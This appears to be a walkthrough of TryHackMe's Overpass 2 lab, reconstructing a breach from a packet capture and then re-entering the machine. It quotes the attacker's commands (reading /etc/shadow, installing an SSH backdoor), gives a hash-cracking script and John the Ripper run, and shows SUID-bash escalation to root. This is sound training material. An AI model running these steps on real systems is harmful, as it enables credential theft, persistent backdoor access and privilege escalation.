






# TryHackMe's Overpass 2 - Hacked Room

<https://tryhackme.com/r/room/overpass2hacked>

## Introduction

The Overpass 2 - Hacked room on TryHackMe combines both offensive and defensive cyber skills through a forensic analysis of a network breach. The exercise revolves around investigating a malicious actor's activity within a compromised network, giving insight into common attack methods and ways to detect and analyze them. In this room, you'll learn to dissect network captures, spot attack indicators, and piece together an attacker’s actions—from the initial intrusion via an upload vulnerability to privilege escalation and persistence through a custom SSH backdoor. This walkthrough will guide you through analyzing network traffic, extracting vital information, and leveraging tools like Wireshark and John the Ripper to uncover what happened and assess the attacker’s methods. Prepare to dive into a real-world-style forensics investigation!

## Forensics: pcap analysis

Start **Wireshark** and open the provided pcap file.  
Filter for http packets and you will find a POST request to _/development/upload.php_.  
Attackers often leverage upload vulnerabilities to upload malicious files in order to get access or execute commands, so this is worth investigating.



Looking at the packets one by one to reconstruct a network interaction can be overwhelming! Luckily you don't have to: Wireshark offers a feature that allows you to "follow" the stream of related packets and visualize the whole interaction.
So click on the packet and follow the http stream.



Examining the stream it becomes clear that the POST request was used to upload a file named _payload.php_. We can even see the content of the file in plain text, which is some php code to spawn a reverse shell (see image below).



Now, you should expect that at some point the attacker triggered the uploaded payload.  
Keep scrolling down in the http packets and you will find the GET request that activated the _payload.php_ payload.



The execution of the payload established a TCP connection between the target and the attacker.  
The TCP packets that follow the GET request in the capture are probably related to that connection.  
Find the first one that contains a 'Data' section.



As you can see from the image it contains the prompt of a reverse shell!  
Since the reverse shell connection is not encrypted you are able to read all the commands that were sent by the attacker, to do so just click on the packet and follow the TCP stream.



Let's examine the TCP stream and highlight the most important parts.
The attacker started with a `id` command to find out to which user he managed to obtain access.

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then he proceeded to use python to stabilize the basic shell, spawning a pty.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Managed to access the **james** user, maybe cracking the hash contained in the _.overpass_ file.

```bash
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: [REDACTED]
```

After that, he started investigating the capabilities of **james**.
He did not have to look far, turns out that **james** can run any command on the machine with sudo.

```bash
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: [REDACTED]

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
```

Since the attacker knew james' password, he had privileged access thanks to sudo.  
He used it to grab the hashes of the users' accounts, this is often done by attackers since they can try to crack the hashes later 'offline'.

```bash
sudo cat /etc/shadow
```

Last but not least, he downloaded a ssh backdoor in order to achieve persistence: this way he can log back to the target machine whenever he pleases.  
This is very useful but can increase the chance of being detected, if the backdoor is not stealthy enough.

```bash
git clone https://github.com/NinjaJc01/ssh-backdoor
```

```bash
ssh-keygen
chmod +x backdoor
./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

In order to assess the likelihood that the attacker was able to crack the hashes you can try to crack them yourself.  
Create a _shadow.txt_ file containing the hashes.  
Clean the hashes in a USER:HASH format removing other information, the file should look like this:

```bash
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.
```

Use **John the Ripper** with the fasttrack wordlist to try to crack the hashes.

```bash
john --wordlist=/usr/share/wordlists/fasttrack.txt shadow.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]         (bee)
[REDACTED]          (szymex)
[REDACTED]         (muirland)
[REDACTED]        (paradox)
4g 0:00:00:00 DONE (2024-10-27 10:51) 4.444g/s 246.6p/s 1233c/s 1233C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

John managed to crack 4 of them very easily with a quite common wordlist, so it's safe to assume that the attacker was able to do the same.

## Backdoor analysis

Let's now analyze the ssh backdoor, learning how it works might provide a way to regain access to the machine.  
In this case you are lucky: the source code is public and available on github, let's download it.

```bash
git clone https://github.com/NinjaJc01/ssh-backdoor
Cloning into 'ssh-backdoor'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 18 (delta 4), reused 9 (delta 1), pack-reused 0 (from 0)
Unpacking objects: 100% (18/18), done.
```

Enter the project directory and examine the _main.go_ file.
The file contains a lot of useful information:  
there is a default hard-coded hash used by the program, for authentication purposes.

```go
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```

a _passwordHandler_ function which provides custom authentication handling that overrides the standard ssh mechanisms.  
There is also a hard-coded salt value: `1c362db832f3f864c8c2fe05f2002a05`

```go
func passwordHandler(_ ssh.Context, password string) bool {
	return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

Basically when someone tries to access the backdoor is prompted for a password.  
The password provided is then concatenated with the salt value and hashed, if the hash matches the hash saved in the backdoor program the authentication is successfull.  
Keep in mind that the default hard-coded hash seen earlier can be overridden by a command line argument, and that is exactly what the **./backdoor -a** command did.  
You saw this command in the pcap analysis.  
So the hash you are interested in is the following:

```bash
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

Having both the salt value and the hash you can try to brute-force the password with a python script.  
Create a _hash.py_ file with the following code:

```python
import hashlib

salt = "1c362db832f3f864c8c2fe05f2002a05"
target_hash = "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed"

with open("/usr/share/wordlists/rockyou.txt", "r") as wordlist:
    for line in wordlist:
        password = line.strip()
        # Concatenate password and salt
        test_hash = hashlib.sha512((password + salt).encode()).hexdigest()
        # Check if the generated hash matches the target hash
        if test_hash == target_hash:
            print(f"Password found: {password}")
            break
```

The script uses the rockyou wordlist, for each word in the wordlist it concatenates the word with the salt value, hash the resulting string and check if the hash matches the backdoor's hash.  
The logic is pretty much the same used by the authentication mechanism of the backdoor.  
Run the script and it will find the password almost immediately.

```bash
python hash.py
Password found: [REDACTED]
```

## Access the server with the backdoor

Knowing how the backdoor works and its password you can now regain access to the server.  
From the code you can see that the backdoor listens on port 2222, access to it.

```bash
ssh 10.10.79.213 -p 2222
The authenticity of host '[10.10.79.213]:2222 ([10.10.79.213]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[10.10.79.213]:2222' (RSA) to the list of known hosts.
root@10.10.79.213's password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$
```

Retrieve the user flag.

```bash
cd /home/james
james@overpass-production:/home/james$ cat user.txt
[REDACTED]
```

It seems that the attacker changed a few passwords: the user **james** should not be able to run sudo commands with the old password we found earlier in the pcap file.  
Also the passwords you cracked earlier for the other users should not work, you have to figure out another way to get higher privileges.  
Looking into james' home, a file owned by root catches the eye.

```bash
ls -la /home/james
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
```

The **.suid_bash** file is a hidden file owned by root with the SUID bit set, it means that any user can execute that file with the same privileges of the owner of the file (root).  
The file is likely a copy of the bash executable, left behind by the attacker as a quick mean to regain root access.  
Let's try this theory running it.

```bash
james@overpass-production:/home/james$ ./.suid_bash -p

.suid_bash-4.4# whoami
root
```

You now have root access.  
Notice the **-p** parameter, this is necessary because without it the program by default would drop the privileges and you would find yourself still in the **james** user.  
Now you can retrieve the root flag.

```bash
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt
[REDACTED]
```

That's it for this room, see you in the next one.  
Until next time, happy hacking!
